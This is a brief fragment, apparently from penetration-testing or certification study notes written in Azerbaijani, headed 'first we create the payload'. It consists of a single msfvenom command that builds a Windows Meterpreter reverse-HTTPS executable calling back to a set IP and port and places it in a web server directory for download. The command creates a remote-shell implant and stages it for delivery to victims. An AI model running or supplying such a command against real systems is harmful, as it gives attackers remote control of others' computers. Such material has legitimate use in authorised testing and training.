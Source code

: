## İlk öncə payloadı yaradırıq

```
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.128.71 LPORT=4444 -f exe -o /var/www/html/osep.exe
```
